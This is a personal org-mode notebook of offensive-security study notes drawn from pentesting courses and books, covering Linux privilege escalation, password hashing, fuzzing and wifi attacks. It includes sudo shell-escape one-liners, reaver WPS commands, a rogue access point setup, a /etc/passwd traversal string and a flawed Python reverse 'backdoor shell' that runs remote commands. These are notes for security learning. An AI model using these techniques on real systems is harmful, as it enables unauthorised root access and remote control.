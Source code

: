 #+TAGS: sec


* Offensive								:sec:
* Description
* Process 
** Recon
** Enumeration
** using hex to move to the passwd file
 - 2E2E2Fetc/passwd - /../etc/passwd
** Exploitation
** Passwords
*** Cmds
- [[file://home/crito/org/tech/security/security_tools/hashcat.org][hashcat]]
- [[file://home/crito/org/tech/security/security_tools/john_the_ripper.org][John the Ripper]]
*** Links
[[http://www.adeptus-mechanicus.com/codex/jtrhcmkv/jtrhcmkv.php][John the Ripper and Hashcat - Markov Mode Comparison]]
** Priv Escalation
*** [[https://www.youtube.com/watch?v%3Ddk2wsyFiosg&t%3D37s][Linux Privilege Escalation - Jake Williams]]

- Only root users can:
  - Effectively hide
  - Bind ports below 1024
  - Read/Write any file
  - Persist easily between reboots
    
+ Binary exploits (shellcode) should be a last resort
  - Some priv escalation is a waiting game
    - writing a file to a cron.d directory
    - Must wait for crond to restart
    
- Kernel issues
  - uname -a
  - /etc/release
  - /etc/issue
  
- LMGFY to find known issues with these kernels and releases
  
+ Just because you find a kernel exploit doesn't mean you should use it
  - it might not be stable; immediate crash
  - You might get root and then crash the box
  - The exploit might have undesirable artifacts that get you caught

+ Simpler exploits are always better
  
+ Exploiting a vuln program running as root gives you root
  - Look for web servers, mail servers as a command injection here gives you root privs

+ Binary exploits of a root owned program are far less dangerous than a kernel exploit
  - Even if service crashes, the machine doesn't
  - Services probably will auto-restart

+ Trivially vuln setuid programs
  - run the ltrace cmd against any setuid and setgid programs found
  - A rediculous number of these are homegrown and use the 'system' syscall
  - If they don't specify the path, you win
    
  - Look for setuid programs with:
   - find directory -user root -perm -4000 -exec ls -ld {} \; > /tmp/gaping-security-hole

+ Cron jobs
- Can you read cron files owned by other users?
- Even if not some careful scripting with ps can help you find frequently run jobs
- Are any scripts or binaries in cron jobs subject to tampering?
- What about cron files themselves?
- Can you write to a cron.d directory?

+ Weak Permissions on Scripts
  - If a script with user writeable permissions is invoked as root, it may be modified to run arbitrary commands
  - Always check both world writeable and user writeable permissions before admitting defeat

  - Don't jush check the scripts called by priv users, many of these call other scripts internally
    - And many of those have weak permissions 
      
+ Weak permissions on binaries
  - user writeable permissions on binaries are less common than on scripts
  - unlikely to find world writeable binaries
    - but grop writeable bins are not unheard of, esp in custom software
      
+ Weak permissions on LD_PRELOAD
  - The LD_PRELOAD environ variable is a way to load a specific version of a shared lib for a given application
    - LD_PRELOAD is ignored for setuid programs
      
  - However a program may be invoked as root and be vuln
    
+ That shouldn't be setuid/setgid
  - An amazing number of sysads don't understand what should and shouldn't be setuid
  - Any command in sudo that can edit or overwrite files is an ob risk
  - Users with restricted sudo access can use it to obtain unrestricted root perms
  - In performing incident response, we've also seen obscure editors with the setuid bit set  
  - This is presumably a backdoor for the attacker to regain root perms at will
  - We sincerely hope no sysadmins are stupid enough to have setuid perms on editors
  - using the :shell in vi provides a root shell  

+ Don't sudo less
  - The less tool often used to page files can invoke an editor
  - On some buntu sys the default nano
  - Many sys still use vi as an editor
  - less can use ed to drop into default editor, and if vi you can spwan a root shell
  
  - more cmd is just as bad as less
    - ? key to see options    
    - ! will invoke shell cmds on most sys
      - !bash
      
+ Don't sudo cp and mv
  - We can't think of a good reason for either
  - With sudo cp of sudo mv, you can overwrite /etc/shadow or other critical files and obtain bd access
    
+ Don't sudo find
  - The find cmd is often set with sudo perm so helpdesk can find and clean large temp files
  - Besides obs screw up ops, this is a big sec hole
  - find . -exec bash -i \;
    
+ Don't sudo script interpreters
  - All unsafe:
    - Python
    - Perl
    - Ruby
    - Lua
    - others...

- Perl
#+BEGIN_SRC pl
sudo perl
exec "/bin/bash";
#+END_SRC

- Ruby
#+BEGIN_SRC rb
sudo ruby
exec "/bin/bash"
#+END_SRC

- Python
#+BEGIN_SRC py
sudo python
import os
os.system('/bin/bash/')
#+END_SRC

** Maintaining Access 
** Covering Tracks
* Attacks
** Cold boot
** Cross Site Request Forgery (CSRF)
** Cross Site Tracing (XST)
** DLL injection
** Evil Maid
** Heartbleed
** HTTP Response Splitting
** Local File Inclusion Vulnerability
** Man in the Middle
** Pixie Dust Attack
- Wifi Protected Setup (WPS)
- Uses a PIN to allow access to home network

- 8 digits - 7 | 1 - checksum
  - 7 -> 4 + 3
    
- Problem is how the protocol generates the E S1 and E S2 values, pseudo random numbers
- Some vendors also implement the protocol poorly
- Broadlink uses the C rand() function
- Ralink never generates an E S1 or E S2 value and they remain 0

- if the random number state is recovered then E S1 and E S2 can be calculated
- PSK1 and PSK2 can be calculated from the E-hash1 and E-Hash2 values
*** aircrack
1. airmon
2. wash -i wlan0mon
3. Copy the ESSID
4. reaver -c 1 -i wlan0mon -b <essid> -vv -K 1
- if this fails you can always bruteforce the wps
#+BEGIN_SRC sh
reaver -c 1 -i wlan0mon -b E0:91:F5:6F:3F:C6 -vv
#+END_SRC

** Ruby attack
** Shellshock
** SMB Relay Attack

* Code
** Python
*** Backdoor Shell
#+BEGIN_SRC py
#!/usr/bin/python
import subprocess #Process commands
import socket #Process socket data

host = '127.0.0.1' # Attack Machine
port = 443 # Attack Port
passwd = 's3cr3t' 

# chek password
def Login():
    global s
    s.send("Login: ")
    pwd = s.recv(1024)

    if pwd.strip() is passwd:
        Login()
    else:
        s.send("Connected #> ")
        shell()

# Execute shell cmds
def Shell();
    while True:
        data = s.recv(1024)

        if data.strip() == ":kill":
            break

        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        output = proc.stdout.read() + proc.stderr.read()
        s.send("#> ")

# Start Script
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
Login()
#+END_SRC
* Lecture
** [[https://www.youtube.com/watch?v%3DgYOy7CGpPIU][The Makin of atlas: Kiddie to Hacker in 5 Sleepless Nights]]
http://atlas.r470y.com/ - atlas blog   

- Tools
  - objdump - reads the headers of executables
    - objdump -x demystified - this will dump all headers
  - ReadElf
  - GDB
  - Ktrace/KDump
    
** [[https://www.youtube.com/watch?v%3D0fbBwGAuINw][How to Exploit Metasploitable 2 with NMap, Nexpose, Nessus and Metasploit]]

- getting a html report from nmap report
#+BEGIN_SRC sh
nmap -O -sV -sC -oX nmap-scan.xml 192.168.56.101
cp /usr/share/nmap/nmap.xsl .
#+END_SRC
We need the nmap.xsl as it is the stylesheet for the xml file

- Vulnerability Scanners
  - OpenVAS
  - Nessus
  - Nexpose
* Tutorial
** PluralSight - System Hacking - Dale Meredith

*** Intro

What to do before attack
+ recon & footprinting
    - ip range
    - Namespace
    - Public Data
+ Scanning
    - ID targets
    - ID services
    - ID O/S
+ Enumeration
    - User lists
    - Security flaws
    - Resources

What are our goals
+ Gain Access
+ Maintaining Access
+ Covering Tracks


**** Gaining Access
Complexity - MS you must use at least 3 of Upper case, Lower case, Numbers and Special characters
Password recovery time simulator - free

***** Architecture
****** Windows
Local machines: SAM Database - C:\windows\system32\config\sam
Stored as hashes - mounted as HKLM/SAM
Older machines may have C:\windows\repair with backups of passwords

Active Directory: ntds.dit - C:\windows\ntds
stores all passwords for domain controller     

****** Linux
/etc/shadow

****** OS X
/var/db/dslocal/nods/default/users

ophcrack to crack the hash - ophcrack has a live cd


****** Techniques Used
+ Dictionary Attack - Text files of words - Languages - Subjects
+ Brute-Force Attacks - Takes longer - beyond 14+ starts getting difficult
+ Syllable Attacks - Dictionary and brute-force attack
+ Hybrid Attacks - Dictionary using variation on numbers & special chars
+ Rule-Base Attacks - Using discovered rules to specify shape of password
+ Guessing - Using information gleaned to make educated guesses - social media etc
  
****** Types of Attacks
| Passive Online | Sniffing, MIM, Sidejacking(firesheep)             |
| Active Onle    | Hash injection, trojan/keylogger                  |
| Offline        | Rainbow, Distributed network, pre-computed hashes |
| Non-electronic | Dumpster diving, social engineering               |

Hashes 
LM Hash - des
+ LM Hash/NTLM stores passwords up to 14 chars
+ All characters are converted to UPPER case
+ Padded with blank characters to fill out all 14 chars.
+ Then split into 7 chars stings
+ Each 7 char string is then encrypted and combined back 

NTLM 1 - md4 NTLM 2 - md5
Bwayne:1005:85D8D0AEB8D112F8F9954FC9DF57E012:ED7B273FDE21FFE559AC8D1B9D3729BC:::
Administrator:500: xxxxxxxxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
Guest:501:NOPASSWORD**********************:NOPASSWORD*********************:::

Notes
+ 500 cid in MS is always admin
+ Any hash that ends with: AAD3B435B51404EE - last 7 chars blank
+ Any password with 15+ chars: the LM hash value is "dummied" with AAD3B435B51404EEAAD3B435B51404EE

****** NTLM Authentication
+ NTLM is used whtn 
  - There is no Kerberos trust between two different forests
  - Authentication is attempted by IP and not by DNS
  - If oe or both systems are not in the same domain
  - If your FW is blocking Kerberos ports
  
******* How it's used
+ Challenge response algorithm
+ Passwords are not transmitted
+ V1 came with NT - V2 cam with NT SP4

******* The Process

user enters pass -----> windows generates a hash
        |
        |
        ---------------------------------------------> Domain Controller
	                      Request                            |
          <-------------------------------------------------------	
                             hash sent by DC
       ---------------------------------------------------------->
                      hast and challenge sent back
		      
****** Kerberos Authentication - used on modern MS
+ Ticket based
+ Avoids transmitting passwords
+ Time based

1. user requests TGT 
2. DC issues TGT
3. TGT is presented to machines in the network to access services
PDC needs to be synced otherwise kerberose doesn't work

****** Salting 
+ Append or prepending random strings
+ done before hashing
+ prevents duplicate hashes
+ unique to each password
  
****** Rainbow tables
+ Precomputed hash tables
+ Huge files

+ website for checking hashes tobtu.com 
+ lm hash checking hashes rainbowrables.it64.com
+ dictionaries can be found at outpost9.com

**** Maintaining Access
     
+ Look around
  - config errors
  - design errors
  - layouts
  - programming flaws

***** Four Methods for Escalation
1. Pwn the admin/root acct
2. Take advantage of vuln
3. Fire up the sploit - alt to sploit - canvas, core-impact
4. Have a user do it for you!

***** Types of Escalation
+ Vertical - user gains admin level access
+ Horizontal - move to a user 
  
***** Counter Measures
+ encryption - encrypted hdd 
+ Least priv - don't over allocate a user
+ sw upto date
+ Limit interactive logon
+ Service accts are limited
+ Limit code that can run with privs

***** Slow down attacker
+ Priv separation approach
+ test os and app code before running
+ Multi-factor
+ Stress test code, apps befor deploying

**** Cover Tracks

** ISSA Web Pen-testing Workshop
*** [[https://www.youtube.com/watch?v%3DJPd2YtgJm8Q][Intro to Mutillidae, Burp Suite & Injection]]
*** [[https://www.youtube.com/watch?v%3DxSqw-KwQatI][Webshells]]
- on kali they are found in /usr/share/webshells

- weevely - github and kali more advanced webshell
  - instead of using puts ands gets it uses cookies
- neopi - 
*** [[https://www.youtube.com/watch?v%3DKJn2HIpFmO0][HTML & Javascript Injection]]
- burp sutie has a builtin decoder for encoding webshell code
*** [[https://www.youtube.com/watch?v%3Dt-44ZsaeIQE&t%3D3s][Beef Hooks]]
*** [[https://www.youtube.com/watch?v%3Dd71YfVR1eWA][JSON Injection]]

** Offensive Security 2013 - FSU 
*** [[https://www.youtube.com/watch?v%3D4yNgP3CUOWo][Lecture 2: Linux Overview]]
*** [[https://www.youtube.com/watch?v%3D3y8JuixcSdU][Lecture 7: Fuzzing]]

- Exploitation Theory
  - Von Neumann Arch
    - unable to distinguish between data and instructions
    - instruction and data stores in same memory
      - this allows for the modification of code
  - Harvard Mode
    - this seperates out data and instruction into there own memory
      - this is implemented inside processors for specfic tasks, but not on whole systems
  - Other Architectures
    - Tagged Arch
    - Capablility Arch
    - Trusted Computing Base

- Exploits can be generalized into a three step process
1. Some sort of memory corruption
2. Change / hijack of control flow
3. Execution of the shellcode
   
- What is fuzzing?
  - The process of sending specific data to an application in hope to elicit certain responses
  - Specific?
    - Mutated data, generational data, edge cases, unanticipated datatypes, etc.
  - Certain?
    - crashes, errors, anomalous behaviour, different application states
      
- Fuzzing Phases
  1. Identify Target (application)
  2. Identify inputs
  3. Generate Fuzzed Data
     - Two methods for fuzzing data
      i) Generation
      ii) Mutation
  4. Execute Fuzzed Data
  5. Monitor for Exceptions
  6. Determine Exploitability
     
- Methods for generating fuzzed data
  - Generation fuzzing
  - Mutation fuzzing
    
- Generating fuzzed data
  - String repetitions
    - A*10, A*100, A*1000
  - Character translations
  - Directory Traversal
  - delimiters
  - Metacharacter / Command injection
    - sql -- comment
  - File types
  - Bit Flipping for protocol headers

Vulnerablility Scoring
http://www.first.org/cvss

HAOE book cd has a vanilla system that has a lot of the counter measures switched off 

** Offensive Security 2014 - FSU
Owen Redwood
*** [[https://www.youtube.com/watch?v%3Dlk3rp53b2NA][Lecture 1: Intro]]
- reading list
  - hacking the art of exploitation
  - the hacker's handbook to web applications

*** [[https://www.youtube.com/watch?v%3DlbjS2mXyMEQ][Lecture 2 - Secure Coding in C]]
- web tool that visuzlises code to assemby
  - http://gcc.godbolt.org
- reading list    
  - Secure Coding in C and C++ - Robert Seacord
    
http://websec.github.io/unicode-security-guide/character-transformations/

*** [[https://www.youtube.com/watch?v%3DyXX6DWFTLaQ][Lecture 3: Secure Coding in C cont]]
reading:
http://blog.reghr.org/archives/1054 - cryto lib bugs
http://www.cs.utah.edu/~regehr/papers/overflow12.pdf
http://floating-point-gui.
0x352 HAOE - Formatted Output Security
0x280 up to 0x300
0x350 up to 0x400

Race conditions
  - CVE-2007-4303
  - CVE-2007-4302

*** [[https://www.youtube.com/watch?v%3DMnmX911MqMU&t%3D3176s][Lecture 4]]
Links:
[[http://cve.mitre.org][Common Vulns and Exposures - CVE]]
[[http://cwe.mitre.org][Common Weakness Enumeration - CWE]]
[[http://cce.mitre.org][Common Configuration Enumeration - CCE]]
Seven kingdoms of exploit
[[http://nvd.nist.gov/home.cfm][National Vuln Database]]

CVEs
- list of information security vulns that aims to provide common names for publicly known problems
- Goal to make it easier to spread/share data
- Run by MITRE

Vuln - "is a mistake in software that can be directly used by a hacker to gain access to a system or network"

CCE
- Assigns unique identifiers to configuration guidance statements
  - The required permissions for accessing the directory %System Root%\System32\Setup should be "Administrator Account" only
  - The "account lockout threshold" for failed password attempts should be 3
  - For Linux, passwords should be stored in either SHA256 or SHA512 or the default DES formats and in the /etc/shadow file not the /etc/passwd file
    
CWE
- A softwate weakness is an error that may lead to a software vuln, such as those enumerated by the CVE list
- Examples software weaknesses include:
  - buffer overflows, format strings, etc
  - structure and validity problems; common special element manipulations
  - channel and path errors
  - handler errors
  - user interface errors
  - pathname traversal and equivalence errors
  - authentication errors
  - resource management errors

Code Nomenclature

Code ----> Bugs ----> Weaknesses ---- --> Exposures  -----> 
                                                            |                                     Exploited Vulns
							    ----   Vulns   ----------> 

Discovering Vulns
3 Primary Methods:

1. Source code Auditing
  - Requires Source Code
    
2. Reverse Engineering
  - Can be done withourt source code
  - Requires binary applications
  - very time consuming and requires high technical skill
    
3. Fuzzing
  - Lost of tools/Frameworks exist
  - Easy to make custom ones
  - Binary or source code availability is unimportant 
    
Auditing tools
- Author's source code comments
- Editors/Reading Tools
  - vi/emacs; source insight; eclipse; source-navigator
-Pattern matchng tools    
- Static analyzers
  - prone to missing vulns
  - prone to false pos+

Approaches
- Find the most bugs?
- Find the easiest to find bugs?
- Find the weaknesses that are most reliable to exploit?

It is important to limit the approach
 - will never have enough time to find all the bugs
   
General Methodology
1. Understand the Application
   - features
   - Architecture
     - what over services does the application require
   - Programming Lang
   - Compnents
      - DB - try to hit db for sqli
      - file shate - try to upload a file
     
2. Understand the Attack Surface
   - You must choose which ones to focus on 
     - Sabotage
       - defacing, attacker deleting records, altering them, destroying user trust
     - Gaining Access
       - attack / harass other users
       - botnet
       - identity theft
     - Piracy/theft

3. Target your efforts
   - depends on your style
     
Targeting: How to think like an attacker
  Traditional strategies:
    - ipurt sources related to code paths
    - target important components
      - security mechanisms
        - Auth
	- http/https
      - Data mgmt/DB
      - Interpreters (php)
    - Complex parsing, protocols or functions 
  Meta Targeting startegies
    - Start by looking at source code comments      
      - grep for:
        - fix this, todo!, xxx, *****
        - swearing/typos
        - old code
          - old libs
	- code checked in at 4am
	- code checked in at same time as other buggy code
	  
Reading Code
  - Review fewer than 200-400 lines of code at a time
  - Faster code review is not better
    - Optimal code review is around 300-500 loc
  - Never review code for more than 90 mins at a time
    -significant diminishing returns after this
  - Be thorough
    - vast majority of code is ok
  - Avoid making assumptions    
    - can cause you to miss bugs, or assume something is done correctly
  - Look for abstraction
    - switching between C and C++ styles of code
      - two different devs with different backgrounds > bugs
  - Focus on code patterns
    - copy paste chunks
      - forgetting to up chuck variables

-------------------------

Look up off by one errors
sizeof !=strlen
- size of bytes not elements
  
Programs in memory
- .txt section
   - contains machines intstructions
- .data section
   - global initialized variables
- .bss section
- heap section
- stack section
  
Gerenal Bug Categories 
1. API Based Bugs
2. Programming Construct Errors
3. State Mechanics
4. External Resource Interactions
-- refer to the seven kingdoms

** CBT Nuggets Kali Linux 
*** Welcome to the tools of kali linux
*** What is BackTrack
*** Bypassing Wireless Mac Filtering
  - Find the AP
    - airmon-ng & airodump-ng
  - Find an associated client
    - airodump-ng
  - Borrow the MAC address - macchanger
    
- Hidden ssid will show with the <length: 0> in airodump-ng
  
- connecting with specific ssid with ifconfig
#+BEGIN_SRC sh
iwconfig wlan0 essid my_ssid_here channel 1
#+END_SRC

- just show the clients of an AP
#+BEGIN_SRC sh
airodump-ng -c 1 -a --bssid 00:18:11:60:17:3F wlan0mon
#+END_SRC
-a specifies that only clients should be shown

- change mac addr
#+BEGIN_SRC sh
macchanger -m 56:55:CA:F2:6F:AF wlan0
#+END_SRC

*** Rogue Access Point
- tools:
  - airmon-ng
  - airbase-ng
  - dhcpd3

- dhcpd.conf
#+BEGIN_SRC sh
ddns-update-style ad-hoc;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.2.0 netmask 255.255.255.0 {
option subnet-mask 255.255.255.0;
option broadcast-address 192.168.2.255;
option routers 192.168.2.1;
option domain-name-servers 208.67.222.222;
range 192.168.2.51 192.168.2.100;
}
#+END_SRC

- setting up AP
#+BEGIN_SRC sh
airbase-ng --essid "Free_Hotspot" -c 6 wlan0mon
#+END_SRC

* Books
** [[file://home/crito/Documents/Security/The-Hacker-Playbook-Practical-Guide-To-Penetration-Testing-2014.pdf][The Hacker Playbok - Practical Guide to Penetration Testing]]
*** Pregame and Before the Snap
- setting up a baseline
  - once you have it ready to run take a snapshot of the vm 

- recommeded distro
  - pentoo

***** high level tool list (Linux)
  - windows credential editor 
  - smbexec 
  - Veil 
  - Discover scripts 
  - Mimikatz 
  - Burp 
  - PeepingTom
  - Powersploit
  - BeEF 
  - Responder
  - Firefox
    - web dev add-on
    - foxy proxy
    - Tamper data
    - User Agent Switch
      
***** high level tool list (windows)
  - HxD
  - Evade
  - Hyperion
  - Cain and Abel
  - Firefox
    - web dev add-on
    - foxy proxy
    - Tamper data
    - User Agent Switch
  - Evil Foca
    
**** Passive Scan 
1. discover sscripts
   - this tool leveridges all the osint tools in one framework
   
2. recon-ng
 
**** Scanning Process
  1. scan using nexpose/nessus (Loud only for auth)
  2. scan with nmap
  3. scan with custom nmap
  4. screen capture with peepingtom

- nmap banner grab
#+BEGIN_SRC sh
nmap --script /usr/share/nmap/scripts/banner-plus.nse --min-rate=400 --min-parallelism=512 -p1-65535 -n -Pn -Ps -oA 192.168.56.102
#+END_SRC
--min-rate=400 - guarantee that the scan will finish after set time
-n - disable dns resolution
-Pn - disable ping

**** Web App Scanning
Tools
  - zap
  - WebScarab
  - Nikto
  - w3af

- Using Burp
 The process  
  - Spider/Discovery/Scanning
  - Scanning with web app scanner
  - Manual parameter injection
  - Session token analysis
    
1. configure network proxy
2. start burp suite
3. spider through the app
4. discover content
5. run the active scanner
6. exploit
   
*** The Drive
- Metasploit

*** The Throw
- SQL Injections
  - SQLmap
  - SQLninja
    
* Links
